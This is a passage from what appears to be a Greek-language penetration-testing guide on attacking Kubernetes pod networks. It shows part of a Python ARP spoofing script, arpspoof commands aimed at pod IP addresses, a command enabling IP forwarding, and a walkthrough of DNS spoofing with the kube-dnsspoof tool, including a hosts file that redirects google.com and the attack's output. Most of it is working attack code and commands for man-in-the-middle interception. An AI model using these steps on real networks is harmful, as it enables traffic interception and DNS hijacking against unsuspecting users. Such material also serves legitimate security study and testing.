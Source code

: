 ```python:arp_spoof.py

try:
gatewaymac= getmac(gatewayip)
print("Gateway MAC:", gatewaymac)
except:
print("Gateway is unreachable")
quit()
try:
print("Sending spoofed ARP responses")
while True:
spoofarpcache(targetip, targetmac, gatewayip)
spoofarpcache(gatewayip, gatewaymac, targetip)
except KeyboardInterrupt:
print("ARP spoofing stopped")
restorearp(gatewayip, gatewaymac, targetip, targetmac)
restorearp(targetip, targetmac, gatewayip, gatewaymac)
quit()

if __name__=="__main__":
main()

# To enable IP forwarding: echo 1 > /proc/sys/net/ipv4/ip_forward
```
### ARPSpoof
```bash
apt install dsniff
arpspoof -t 172.17.0.9 172.17.0.10
```
## DNS Spoofing

Όπως έχει ήδη αναφερθεί, αν **συμβιβάσεις ένα pod στην ίδια κόμβο με το pod του DNS server**, μπορείς να **MitM** με **ARPSpoofing** τη **γέφυρα** και το **pod DNS** και να **τροποποιήσεις όλες τις απαντήσεις DNS**.

Έχεις ένα πολύ ωραίο **εργαλείο** και **tutorial** για να το δοκιμάσεις στο [**https://github.com/danielsagi/kube-dnsspoof/**](https://github.com/danielsagi/kube-dnsspoof/)

Στο σενάριό μας, **κατέβασε** το **εργαλείο** στο pod του επιτιθέμενου και δημιούργησε ένα **αρχείο με όνομα `hosts`** με τα **domains** που θέλεις να **spoof** όπως:
```
cat hosts
google.com. 1.1.1.1
```
Εκτελέστε την επίθεση στη μηχανή ubuntu-victim:
```
python3 exploit.py --direct 172.17.0.10
[*] starting attack on direct mode to pod 172.17.0.10
Bridge:  172.17.0.1 02:42:bd:63:07:8d
Kube-dns:  172.17.0.2 02:42:ac:11:00:02

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

